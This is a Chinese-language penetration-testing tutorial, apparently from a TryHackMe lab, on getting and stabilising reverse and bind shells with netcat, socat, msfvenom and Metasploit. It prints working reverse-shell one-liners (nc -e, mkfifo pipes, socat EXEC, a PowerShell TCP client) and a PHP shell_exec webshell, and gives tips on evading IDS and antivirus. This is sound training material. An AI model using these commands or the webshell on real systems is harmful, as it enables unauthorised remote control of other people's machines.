


0x01 什么是shell
在我们了解 发送和接收shell之前，知道 shell 实际上是什么非常重要。用最简单的术语来说，我们在与命令行环境(CLI)做接口时所使用的就是shell。换句话说，Linux 中常见的 bash 或 sh 程序就是 shell，Windows 上的 cmd.exe 和 Powershell 也是shell。在针对远程系统时，有时可以强制应用程序在服务器上运行(例如 webserver)来执行任意代码，当这种情况发生时，我们希望使用这个初始访问来获得在目标上运行的 shell。
简单地说，我们可以强制远程服务器向我们发送对服务器的命令行访问(反向 shell) ，或者在服务器上打开一个端口，我们可以连接到这个端口以执行更多的命令(绑定 shell)。
我们将在整个房间中更详细地介绍这两种场景。
这个房间的格式如下：
- 房间的大部分内容由信息组成，代码块和屏幕截图中给出了示例。
- 房间的最后两项任务中有两台虚拟机——一台是 Linux，一台是 Windows。这些可以用来练习所演示的技术。
- 任务 13 中有示例练习题。请随意完成这些练习，或者在完成任务时按照任务进行操作。
话不多说，让我们开始吧！
0x02 工具介绍
我们将使用多种工具来接收反向 shell 和发送绑定 shell。一般来说，我们需要恶意的 shell 代码，以及与生成的 shell 进行接口的方法。我们将在下面简要讨论其中的每一项:
Netcat
Netcat 是传统的网络“瑞士军刀”。它用于手动执行各种网络交互，包括在枚举时抓取banner（横幅），更重要的是，它可以用于接收反向shell以及连接到远程端口以绑定目标系统上的shell。Netcat shells在默认情况下非常不稳定(容易丢失) ，但是我们可以通过一定技术来加以改进。
Socat
Socat 就像升级版的 Netcat。它可以做和Netcat相同的事情，而且能够做更多。Socat shells 通常比开箱即用的 Netcat shells更稳定。从这个意义上说，它远远优于 netcat;
然而，Socat也有两个大的缺陷:
- Socat语法更加困难
- 在默认情况下，几乎每个 Linux 发行版都会安装Netcat，但很少会默认安装Socat
Netcat和Socat在 Windows 上都有.exe 版本
Metasploit – multi/handler
Metasploit 框架的 auxiliary/multi/handler 模块与 socat 和 netcat 一样，可以用于接收反向 shell。由于是 Metasploit 框架的一部分，multi/handler 提供了一种获得稳定 shell 的完全成熟的方法，并提供了多种进一步改进所捕获的 shell 的选项。
multi/handler模块是可以与 meterpreter shell 进行交互的方法，并且也是处理分段payload（有效载荷）的最简单方法。
Msfvenom
与multi/handler一样，msfvenom在技术上也是 Metasploit 框架的一部分，然而，它是作为一个独立的工具发布的。msfvenom用于动态生成payload，Msfvenom可以产生除了反向shell和绑定shell以外的其他payload（有效载荷）。
除了我们已经介绍过的工具之外，还有许多用不同编程语言书写的 关于shell利用的项目和资料，比如：
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md
- https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- Kali Linux 预先安装了各种webshells，默认路径是：/usr/share/webshells
- 还有一个项目虽然主要是发挥字典功能，但是也包含了一些非常有用的 用于获取shell的代码：https://github.com/danielmiessler/SecLists
0x03 shell类型
从更高的层次上来说，当涉及到一个可利用目标时，我们只对两种 shell 感兴趣:
- 反向 shell ，
- 绑定 shell。
Reverse shells（反向shell）
反向 shell 是指目标被迫执行一段代码 并以此连接到你的计算机，在你自己的计算机上，你可以使用前面提到的工具之一来设置一个用于接收连接的监听器。
反向 shell 是绕过防火墙规则的一个好方法，因为防火墙规则 可能会阻止你正向连接到目标上的任意端口；然而，有一个缺点是：当从互联网上的一台机器接收 shell 时，你需要先配置好你自己的网络。
Bind shells（绑定shell）
当在目标上执行的代码用于启动一个直接连接到目标机器的shell的监听器时，就称为绑定 shell。然后，这将使目标向互联网开放，这意味着你可以连接到代码打开的端口，并通过这种方式获得远程代码执行。
这样做的好处是 不需要你在自己的网络上进行任何配置，但是该行为可能会被保护目标的防火墙加以阻止。
一般情况下，反向 shell 更容易执行和调试。
反向shell的例子
请看下面的图片。
在左边，我们有一个反向 shell 侦听器——它接收连接，而右边是发送反向 shell 的模拟目标。实际上，这更可能是通过远程网站上的代码注入或类似的注入来完成的。
把左边的图像想象成你自己的电脑，把右边的图像想象成你的目标。
#在攻击机（你的kali系统）上:
sudo nc -lvnp 443
#在目标机上：
nc <LOCAL-IP> <PORT> -e /bin/bash #<LOCAL-IP> <PORT> 指的是攻击机上的ip和正在监听的端口
注意，在右边运行命令之后，左边的监听器将接收到一个连接，连接成功后，运行 whoami 命令，能看到我们能够作为目标用户去执行命令，重要的是：我们在监听我们自己的攻击机上的端口，由目标机发送连接到攻击机。
绑定shell的例子
绑定 shell 不太常见，但仍然非常有用。
请看下面的图片。同样，左边是攻击者的电脑，右边是模拟目标。为了稍微改变一下，这次我们将使用 Windows 目标。
首先，我们在右边的目标上启动一个监听器–这一次，我们告诉它执行cmd.exe，然后，当目标机上的监听器启动并运行时，我们从自己的机器发送连接到目标机上新打开的端口
#在目标机上设置监听器，当监听器被触发时 执行cmd.exe程序：
nc -lvnp <port> -e "cmd.exe"
#在攻击机上发出连接请求：
nc MACHINE_IP <port> #MACHINE_IP <port> 指的是目标机的ip和打开的端口
正如你所看到的，这再次为我们提供了在远程计算机上执行代码的机会。
注意，这种情况不是 Windows 特有的，重要的是要明白，我们正在目标上开启监听器，然后用我们自己的机器主动去连接到它（目标）。
最后一个与本小节相关的概念是交互性。shell可以是交互式的，也可以是非交互式的。
交互式shell
如果你使用过 Powershell、 Bash、 Zsh、 sh 或任何其他标准的CLI（命令行）环境，那么你已经接触过交互式shell。
交互式shell允许你在执行程序之后与它们发生交互。
例如，使用SSH登录:

在这里，你可以看到它以交互方式请求用户输入 yes 或 no 以继续进行登录连接。这是一个交互式程序，它需要一个交互式 shell 才能运行。
非交互式shell
非交互式shell 不会给你发生交互的机会。在非交互式shell中，只能使用不需要用户交互就能正常运行的程序。不幸的是，大多数简单的反向和绑定 shell 都是非交互式的，这可能会使进一步的漏洞利用变得更加棘手。
让我们看看在非交互式 shell 中运行 SSH 时会发生什么:

由上图可以看到，whoami 命令(非交互式)执行得非常完美，但 ssh 命令(交互式)根本不会给我们任何输出。不过，有趣的是，交互式命令的输出确实可以到达某个地方。
可以说，交互式程序不能在非交互式 shell 中工作。此外，在截图中可以看到一个名为listener的命令，此命令是用于演示的攻击机器自定义的独有别名，是sudo rlwrap nc -lvnp 443 命令的速记方法。除非你在本地配置了这个别名，否则它不会在任何其他机器上工作。

0x04 Netcat
Netcat建立反向shell
建立反向 shell 需要执行反向shell 代码以及设置监听器，执行 shellcode 的方法有很多，所以我们先从设置监听器开始。
使用 Linux 启动 netcat 监听器的语法如下:
nc -lvnp <port-number>
-l #用来告诉netcat这将是一个监听器listener
-v #用于请求详细输出
-n #告诉netcat不要解析主机名或者使用DNS
-p #指定端口
#netcat常用参数列表：
-l：用于指定nc将处于侦听模式。指定该参数，则意味着nc被当作server，侦听并接受连接，而非向其它地址发起连接。
-p：本地端口
-s：指定发送数据的源IP地址，适用于多网卡机
-u：指定nc使用UDP协议，默认为TCP
-v：输出交互或出错信息，新手调试时尤为有用
-w：超时秒数，后面跟数字
-z：表示zero，表示扫描时不发送任何数据
-i：secs 延时的间隔
-L：连接关闭，仍然继续监听
-n：指定数字ip，不能用hostname
-o：file 记录16进制的传输
-r：随机本地及远程端口
-t：使用Telnet交互方式上一个小节中使用的端口是443。实际上，你可以使用任何你喜欢的端口，只要这个端口还没有被服务所占用。请注意：如果选择使用低于1024的端口，则在启动监听器时需要使用 sudo。使用一个众所周知的端口号(80、443或53)通常是一个好主意，因为这更有可能绕过目标的出站防火墙规则
例子：
sudo nc -lvnp 443然后，我们可以使用任意数量的payload（有效载荷）连接到这个目标，具体情况取决于目标环境。
Netcat建立绑定shell
如果我们希望在目标上获得绑定 shell，那么我们可以假设在目标机的选定端口上已经有一个监听器正在等待我们: 我们所需要做的就是使用攻击机主动连接到它。
这句话的语法相对简单:
nc <target-ip> <chosen-port> #攻击机发出连接到目标机在这里，我们使用 netcat 指定我们选择的目标机端口（目标机上的监听器正在监听的端口），以此建立到目标机的向外连接。（在本文后面的内容中，将会讲解如何使用netcat 在目标机上设置监听器）

0x05 shell的稳定化
我们已经捕获或连接到一个 Netcat shell，接下来该做什么？（对shell进行稳定化处理）
默认情况下，这些shell非常不稳定，按下 Ctrl + C 就会杀死整个Netcat程序，而且它们是非交互的，经常会有奇怪的格式错误。这是因为 netcat“shell”实际上是在终端内运行的进程，而不是真正的终端本身。
幸运的是，在 Linux 系统上有许多稳定 netcat shell 的方法，我们会在这里提到三个。Windows反向shell的稳定化往往要困难得多，然而，我们将要在这里介绍的第二个技巧对它也特别有用。
技巧1: Python
我们将讨论的第一种技巧只适用于 Linux 机器，因为在默认情况下Linux机器几乎总是会安装 Python。
这是一个分为三个阶段的过程（shell稳定化的前提是已经获得或者连接到shell）:
- 首先要做的是使用命令：
python -c 'import pty;pty.spawn("/bin/bash")'
它将使用 Python 产生一个功能更好的 bash shell 。
请注意，有些目标可能需要指定Python 版本，如果是这样的话：根据需要将 python 替换为 python2 或 python3 。
这时我们的 shell 会看起来更好一些，但是我们仍然不能使用tab键自动补全功能或者方向键功能,按下Ctrl + C 仍然会杀死这个shell 。 - 第二步是：执行
export TERM=xterm，这将使我们能够访问一些术语命令，例如clear命令。 - 最后(也是最重要的) ，我们将使用 Ctrl + Z按键对 shell 进行后台化处理，对shell后台化之后再前台化：用
stty raw -echo; fg回到我们自己的终端前台。
执行上面的前台化命令，将会做两件事: 首先，这个前台化命令会关闭我们自己本身的终端输出 (它允许我们访问tab键自动补全、方向键和按下 Ctrl + C 终止进程)，然后再将之前建立的反向shell 前台化，从而完成稳定化过程。
完整的过程如下（实质上是用反向shell取代了我们自己原来使用的终端）：

注意：如果 shell 失效，你的终端中的任何输入都将不可见(这是由于原终端回显被禁用)。要解决这个问题，请输入reset命令，然后按下回车键。
技巧2: rlwrap
rlwrap是一个程序，简单地说，它可以让我们在捕获到shell时立即访问历史记录、 tab自动补全键和方向键；然而，如果你想在这个shell 中使用 Ctrl + C，还是必须使用一些其他技巧进一步稳定化shell。
默认情况下，kali没有安装rlwrap，所以如果要在kali中使用rlwrap，请先安装一下：
sudo apt install rlwrap要使用 rlwrp，我们需要调用一个稍微不同的监听器:
rlwrap nc -lvnp <port>在netcat监听器前面加上" rlwrap "可以提供一个功能更全面的 shell。这个技巧在处理 Windows的shell时特别有用，因为众所周知，Windows的shell很难稳定。
在处理 Linux 目标时，可以使用与前面第一个技巧中的第三个步骤相同的方法来完全稳定化shell：先用 Ctrl + Z 后台化 shell，然后再使用stty raw-echo; fg 命令来稳定化并重新进入 shell。
技巧3: Socat
稳定shell的第三个简单方法是使用一个初始的 netcat shell作为进入功能更全面的 socat shell的垫脚石。请记住，这种技巧最好是针对 Linux 目标，因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。
为了实现这种稳定方法，我们首先需要将一个 socat 静态编译的二进制文件(编译为没有依赖关系的程序的一个版本)传输到目标机器上。一个典型的实现方法是：让攻击机在包含 socat 二进制文件的目录中开启一个简易的webserver(sudo python3 -m http.server 80)。然后在目标机器上使用netcat shell界面下载文件，在 Linux 上，这可以通过 curl 或 wget (wget <LOCAL-IP>/socat -O /tmp/socat)来完成。
为了完整性起见，在这里附上目标机是Windows操作系统的情况:
在一个 Windows CLI（命令行）环境中，同样的事情（下载socat文件）也可以在 Powershell 中完成，使用 Invoke-WebRequest 或者 webrequest 系统类，
这取决于安装的 Powershell 版本(Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe)。
在接下来的小节中，我们将介绍使用Socat发送和接收shell的语法。
socat二进制文件下载地址（点击将自动下载）：
https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
socat官网：
http://www.dest-unreach.org/
使用以上任何一种技术，都可以更改终端 tty 大小，这是你的终端在使用常规 shell 时会自动完成的事情; 但是，如果你想打开类似文本编辑器的东西来覆盖屏幕上的所有内容（即：在终端中打开文本编辑器），那么必须在反向或绑定 shell 中手动完成终端界面宽高尺寸的更改。
首先，打开另一个终端并运行 stty-a ，这将为你提供大量的输出流，记下开头部分" 行 “和” 列 "的值:

接下来，在反向/绑定 shell 中输入以下两个命令:
stty rows <number>
#and
stty cols <number>填写你刚才在自己的终端上运行 stty-a 命令所得到的行和列的值。
这将改变反向/绑定shell界面的宽度和高度，从而使一些程序，如文本编辑器，能够依赖于这些宽高信息的准确性来正确地打开。

0x06 Socat
Socat 在某些方面与 netcat 相似，但在其他许多方面有根本不同。理解socat 的最简单方法是把它当做一个两点之间的连接器。这两个点实际上可以是一个监听端口和键盘，也可以是一个监听端口和一个文件，或者可以是两个监听端口，而socat 所做的只是提供两点之间的链接。
让我们再次从反向 shell 开始。
Reverse Shells（反向shell）
如前所述，socat 的语法比 netcat 的语法难得多，下面是在socat 中设置反向 shell 监听器的基本语法:
socat TCP-L:<port> -在socat中，这需要获取两个点(一个监听端口和一个标准输入)并将它们连接在一起，如此建立的 shell 是不稳定的，但它可以在 Linux 或 Windows 上工作，相当于Netcat中的 nc -lvnp <port>.
在Windows操作系统的目标机上，我们使用这个命令来连接攻击机:
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes“pipes”选项用于强制 powershell (或 cmd.exe)使用 Unix 风格的标准输入和输出形式。
在Linux系统的目标机上，使用以下命令来连接攻击机：
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"Bind Shells（绑定shell）
在 Linux 目标上，我们将使用以下命令设置监听器:
socat TCP-L:<PORT> EXEC:"bash -li"在 Windows 目标上，我们将使用以下命令设置监听器:
socat TCP-L:<PORT> EXEC:powershell.exe,pipes我们使用" pipes "参数来连接 Unix 和 Windows 在 CLI （命令行）环境中处理输入和输出的方式。
不管目标是什么，我们在攻击机器上使用以下命令来连接到 正在目标机上等待的监听器：
socat TCP:<TARGET-IP>:<TARGET-PORT> -现在让我们看看 Socat 更强大的用途之一：建立完全稳定的 Linux tty 反向 shell。这仅在目标是 Linux 时有效，会建立一个更稳定的反向shell。
如前所述，socat 是一个非常通用的工具，以下技巧可能是其最有用的应用之一，这是新的监听器设置语法：
socat TCP-L:<port> FILE:`tty`,raw,echo=0让我们分析此命令，像往常一样，我们将两个点连接在一起，但是在这里的点是监听端口和文件。
具体地说，我们将当前的 TTY （TTY含义为：终端）作为文件传递并将它的回显设置为零。这大约相当于使用 Ctrl + Z以及netcat shell 的stty raw -echo; fg技巧，这样处理的额外好处是能够立即建立一个稳定的shell并能连接到完整的 tty（终端）。
普通的socat监听器可以连接到任何有效负载；然而，上面这个特殊的监听器必须用一个非常具体的 socat 命令来激活，这意味着目标机必须安装 socat。
大多数机器默认情况下没有安装socat，但是，我们可以上传一个预编译的socat二进制文件，然后继续正常执行我们的命令。
预编译的socat二进制文件：https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true
特殊命令如下：
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane这是一个很复杂的命令，所以让我们分解一下。
第一部分很简单——我们正在 与在我们自己的攻击机上运行的监听器进行连接，第二部分使用 EXEC:“bash -li” 创建一个交互式 bash 会话，我们还传递了参数：pty、stderr、sigint、setsid 和 sane
- pty：在目标上分配一个伪终端——这是稳定化过程的一部分
- stderr：确保在 shell 中能够显示错误消息（通常是非交互式 shell 的问题）
- sigint：将任何 Ctrl + C 命令传递到子进程中，允许我们在 shell 中使用 Ctrl+C 终止命令
- setsid：在新会话中创建进程
- sane：稳定终端，试图将终端“正常化”。
这看起来有很多东西需要考虑，所以让我们看看它的实际效果。
在左边我们有一个监听器运行在我们的本地攻击机上，在右边我们有一个已经建立好的反向shell，正在使用非交互式 shell 运行。我们使用非交互式的netcat shell，执行特殊的 socat 命令，并在左侧的 socat 监听器中接收一个完全交互式的 bash shell:

请注意，socat shell 是完全交互式的，允许我们使用交互式命令，例如 SSH。 然后我们还可以通过 设置上一个小节中所提到的 stty 值来进一步改进shell，这将让我们能够更好地使用文本编辑器，如 Vim 或 Nano。
如果socat shell 突然无法正常工作，则可以通过在命令中添加 -d -d 来增加信息输出的详细程度，这在实验环境下非常有用，但在一般用途中通常不是必需的。

0x07 Socat加密shell
Socat 的许多优点之一就是它能够创建加密的 shell ——绑定shell和反向shell。除非你有解密密钥，否则无法监视加密的 shell，这样通常能够绕过 IDS检测。
我们在前面讨论了如何创建基本的 shell，因此在这里不再讨论一些基本语法。
可以说，只要把 TCP 用作命令的一部分，就应该在使用加密shell 时将其替换为 OPENSSL。 我们将在本小节结束时介绍一些示例，但首先让我们谈谈证书。
加密反向shell
为了建立加密的shell，我们首先需要生成一个证书，这在我们的攻击机上很容易做到:
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt该命令会创建一个2048位的 RSA 密钥，以及一个匹配的 cert 文件，有自签名且有效期不到一年。当你运行此命令时，它将要求你填写有关证书的信息，你可以留空，也可以随机填写。
然后，我们需要将刚才两个创建的文件合并到一个.pem 文件中:
cat shell.key shell.crt > shell.pem现在，当我们设置反向 shell 监听器时，可以使用以下命令:
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -这将使用我们生成的证书设置一个 OPENSSL 监听器，参数 verify=0 告诉连接不要费心尝试验证我们的证书是否已由公认的权威机构正确签名。 请注意，证书必须在正在监听的设备上使用（即：有监听器的地方就要有PEM文件）。
设置好监听器后，为了回连到该监听器，我们将使用:
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash加密绑定shell
建立加密的绑定 shell 也采用 和上面同样的技巧:
目标机上
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes攻击机上
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -再次注意：即使是针对 Windows 目标机建立绑定shell，证书也必须与监听器一起使用，因此需要为绑定 shell 复制 PEM 文件。
下图显示了来自 Linux 目标的 OPENSSL 反向 shell， 左边是攻击机终端界面，右边是已经建立的非交互式反向shell界面（右边的listener是自定义的别名）：

这种加密技巧也适用于上一个小节中介绍的特殊的、仅限 Linux 的 TTY（终端）反向shell —— 弄清楚它的语法将是本小节答题的关键。
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0 #对socat tty技巧的加密处理--设置攻击机上的监听器
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane #对socat tty技巧的加密处理--让目标机
0x08 常用shell payload
之前有提到我们正在寻找一些方法来使用 netcat 作为绑定 shell 的监听器，所以我们将从它开始。
在 netcat 的某些版本中，包括Windows 版的nc.exe（Kali Linux也附带了，位于 /usr/share/windows-resources/binaries），还有 Kali 本身使用的版本，即netcat-traditional，都有一个 -e 选项允许你在shell的连接上执行进程。
例如，在目标机上设置监听器时：
nc -lvnp <PORT> -e /bin/bash用 netcat 连接到上面的监听器将在目标上产生一个绑定 shell。
同样，对于反向 shell，在目标机上执行以下命令：
nc <LOCAL-IP> <PORT> -e /bin/bash目标机将回连攻击机上的监听器，这样会产生一个反向 shell。
但是，大多数版本的 netcat 都不包含此功能（指 -e选项），因为人们普遍认为它非常不安全。
在几乎总是需要静态二进制文件的 Windows目标机上，以上技巧（指 -e选项）将完美运行；然而，在 Linux的目标机上，我们将改为使用以下代码为绑定 shell 创建一个监听器：
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f #在linux目标机上执行以下段落是此命令的技术说明——命令本身才是最重要的。
该命令首先会在 /tmp/f 处创建命名管道（FIFO–First In，First Out），然后它启动一个 netcat 监听器，并将监听器的输入连接到命名管道的输出。netcat 监听器的输出（即我们发送的命令）再直接通过管道（管道符" | "）传输到 sh，将 stderr 输出流发送到 stdout，并将 stdout 本身发送到命名管道的输入，从而完成循环。
关于命名管道的介绍：https://www.linuxjournal.com/article/2156

一个非常类似的命令可以用来发送 netcat 反向 shell:
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f #在linux目标机上执行这个命令实际上与前一个命令相同，只是此命令将使用 netcat 主动连接语法，而不是使用 netcat 监听语法。(下图示例中的左侧使用了自定义别名)

当目标是一个现代的 Windows Server 时，建立 Powershell 反向 shell 是非常常见的，因此我们将在这里介绍标准的一行 PSH 反向 shell。
这个命令非常复杂，因此为了简单起见，这里不会直接解释它，记住，这是一行非常有用的命令:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"为了使用它，我们需要用适当的 IP 和端口选择来替换"<IP>" 和 “<port>”，然后将其复制到 cmd.exe shell中并执行该命令（或者使用 在 Windows 服务器上执行命令的另一种方法，例如 webshell），从而生成反向 shell：

对于其他常见的反向 shell 有效载荷，可以参考github上的PayloadsAllTheThings存储库，其中包含了多种不同语言的 shell 代码（通常以单行格式进行复制和粘贴）。
PayloadAllTheThings项目链接：
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md

0x09 Msfvenom生成shell payload
Msfvenom作为 Metasploit 框架的一部分，主要用于生成用于反向和绑定 shell 的代码。 它被广泛用于开发低等级的exp，如：在开发缓冲区溢出漏洞exp时生成十六进制 shellcode；但是，它也可用于生成各种格式的有效负载（例如 .exe、.aspx、.war、.py）。 我们将在本节中使用Msfvenom的后一个功能。
msfvenom 的标准语法如下：
msfvenom -p <PAYLOAD> <OPTIONS>例如，要以 exe 格式生成 Windows x64反向 Shell，我们可以使用:
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
这里我们设定一个有效载荷涉及到四个参数选项:
-f <format>:指定输出格式。 在上面的命令中，格式是一个可执行文件 (exe)-o <file>:生成的有效载荷（payload）的输出位置和文件名。LHOST=<IP>:指定要回连的 IP（即攻击机IP）。 当你使用 TryHackMe 的VPN连接到你自己的攻击机时，这将是你的 tun0 IP 地址。LPORT=<port>:要回连的本地攻击机上的端口。 可以是 0 到 65535 之间尚未使用的任何值；但是设定为低于 1024 的端口时将受到限制，需要以 root 权限运行监听器。
Staged vs Stageless（分段和不分段）
在我们进一步讨论之前，必须介绍另外两个概念：分段的反向 shell 有效负载、不分段的反向 shell 有效负载。
- 分段的反向shell有效载荷分两部分发送。第一部分称为stager，这是一段直接在服务器本身上执行的代码，它会回连攻击机上等待的监听器，但它本身并不包含任何反向 shell 代码。第一部分的stager将连接到监听器并使用连接来加载真正的有效载荷，这样能直接执行真正的payload并防止真正的payload接触到磁盘，以免被传统的反病毒解决方案拦截。 因此，此类有效载荷分为两部分——一个小的初始段，然后是在初始段启动时所下载的更大的反向 shell 代码段。 分段的有效载荷需要一个特殊的监听器——通常是Metasploit multi/handler，这将在下一个小节中介绍。
- 不分段的反向shell有效载荷更常见——这些也是我们迄今为止一直在使用的。 它们是完全独立的，因为在成功执行一段代码时会立即将 shell 发送回攻击机上等待的监听器。
不分段的有效载荷往往更易于使用和捕获； 但是，它们也更庞大，并且更容易被防病毒或入侵检测程序发现和删除。
分段的有效载荷更难使用，但它的初始段要短得多，有时会被效率较低的防病毒软件遗漏。 现代防病毒解决方案还将利用反恶意软件扫描接口 (AMSI：Anti-Malware Scan Interface) 来检测有效载荷，这使得分段有效载荷不如以前那么有效。
Meterpreter（英文意思是翻译器）
关于 Metasploit，另一个要讨论是 Meterpreter shell。 Meterpreter shell 是 Metasploit自带的的全功能 shell，它们是完全稳定的，这使得它们在针对Windows 目标机时效果非常好。Meterpreter shell 也有很多自己的内置功能，例如文件上传和下载。 如果我们想使用Metasploit 的后渗透工具，那么我们就需要先获得一个 Meterpreter shell。
Meterpreter shell 的缺点是它们必须在 Metasploit中才能捕获，它们也被某些认证考试禁止使用，因此学习关于Meterpreter的替代方法是个好主意。
有效载荷（payload）命名约定
使用 msfvenom 时，了解命名系统的工作原理很重要，基本的payload命名约定如下：
<OS>/<arch>/<payload>例如:
linux/x86/shell_reverse_tcp
这将为 x86 Linux 的目标机生成不分段的反向shell payload。
此基本命名约定的例外是Windows 32位操作系统的目标，对于该类目标，命名payload时，不会指定操作系统的架构位数，例如：
windows/shell_reverse_tcp
对于64位的 Windows 目标，命名payload时，arch 将被指定为normal (x64) 。
我们把命名中关于payload的部分再细分一下。
在上面的示例中，使用的payload是 shell_reverse_tcp， 这表明它是一个不分段的payload。不分段的payload会用下划线 (_) 表示，与此payload等效的分段payload是：shell/reverse_tcp（分段payload会用一个斜杠/表示）。
这些规则也适用于 Meterpreter payload。一个针对Windows 64位目标的分段Meterpreter payload ，名称将如下所示：
windows/x64/meterpreter/reverse_tcp
针对Linux 32位目标的不分段 Meterpreter payload，名称将如下所示：
linux/x86/meterpreter_reverse_tcp
除了 msfconsole 手册页之外，使用 msfvenom 时要注意的另一个命令是：msfvenom --list payloads，这可用于列出所有可用的有效载荷，然后可以将其通过管道符传输到 grep 以搜索一组特定的有效载荷，例如：

这为我们提供了一整套针对 Linux 32位目标的 Meterpreter 有效载荷。

msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell lhost=10.10.10.5 lport=4430x10 Metasploit multi/handler模块
Multi/Handler 是捕获反向 shell 的绝佳工具（multi/handler模块充当的是连接shell的监听器），如果你想使用 Meterpreter shell，这是必不可少的，并且这也是使用分段payload时的首选。
幸运的是，它相对容易使用:
- 使用" msfconsole "命令启动Metasploit
- 输入" use multi/handler "命令，按下回车键
我们现在准备开始一个multi/handler会话，让我们使用 options 命令查看可用的选项:

我们需要设置三个选项：payload、LHOST 和 LPORT。 这些都与我们在使用 Msfvenom 生成 shellcode 时设置的选项相同——特定于我们的目标的payload，以及我们可以接收 shell 的监听IP地址和端口。
请注意，在此处必须指定 LHOST，因为 metasploit 不会像 netcat 或 socat 那样监听所有网络接口； 所以你必须告诉它一个特定的地址以便进行监听（使用 TryHackMe 时，这将是你的 tun0 地址）。 我们使用以下命令设置这些选项：
set PAYLOAD <payload>set LHOST <listen-address>set LPORT <listen-port>
我们现在应该已经准备好开始监听了！
让我们通过使用" exploit -j "命令，这将告诉 Metasploit 启动模块并将其作为作业（job）在后台运行

你可能注意到在上面的截图中，Metasploit 正在监听一个1024以下的端口。为此，Metasploit 必须使用 sudo 权限运行。
当在前面的msfvenom中生成的分段payload开始运行时，Metasploit 将接收连接，并会发送剩余的payload然后给我们提供一个反向 shell:

请注意，因为在上面的案例中multi/handler 开始是在后台处理的，所以我们需要使用 " sessions 1 “命令再次将其置于前台。 这很有效，因为它是唯一运行的会话。 如果还有其他活动的会话，我们将需要使用” sessions "命令来查看所有活动的会话，然后使用sessions <number>命令来选择适当的会话置于前台。 这个数字也将显示在打开 shell 的行中（你能看到“Command Shell session 1 opened ”）。

0x11 webshell介绍
有时我们会遇到允许我们以某种方式上传可执行文件的网站。 理想情况下，我们会利用这个机会上传可以激活反向shell或绑定 shell 的代码，但有时这是不可能的。 所以在非理想情况下，我们将改为上传 webshell。（请参阅我之前写的关于上传漏洞的博客文章，以更广泛地了解此概念）
“Webshell”是一个通俗的术语，用于指代在网络服务器（通常使用 PHP 或 ASP 等语言）中运行的脚本，该脚本能在服务器上执行代码。本质上，命令被输入到网页中——通过 HTML 表单，或者直接作为 URL 中的参数——然后由脚本执行，执行的结果返回并会写入网站页面。在另一方面，webshell也能够作为进入完全成熟的反向shell或绑定shell的垫脚石。
由于 PHP 仍然是最常见的服务器端脚本语言，让我们来看一些简单的PHP代码，以一种非常基础的单行格式书写:
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>这将在 URL 中获取一个 GET 参数，并使用" shell_exec() "在系统上执行它。
这意味着我们在URL 中的 " ?cmd= "之后输入的任何命令都将在系统上执行——无论是 Windows 还是 Linux。 " pre "元素是为了确保显示在网站页面上的结果的格式正确。
让我们看看实际情况:

请注意，当导航到shell.php页面时，我们在url中使用了带有" ifconfig “命令的 GET 参数” cmd "，然后正确地返回了目标的网络信息。
换句话说，通过在我们上传的shell.php页面的 URL 中输入 ifconfig 命令（该命令用于检查 Linux 目标上的网络接口），使得命令在系统上执行，并将结果返回给我们。 这适用于任何其他命令（例如 whoami、hostname、arch 等）。
如前所述，在 Kali 上默认有多种 webshell 可用，位于/usr/share/webshells路径下——包括臭名昭著的 PentestMonkey php-reverse-shell——一个用 PHP 编写的完整的反向 shell。
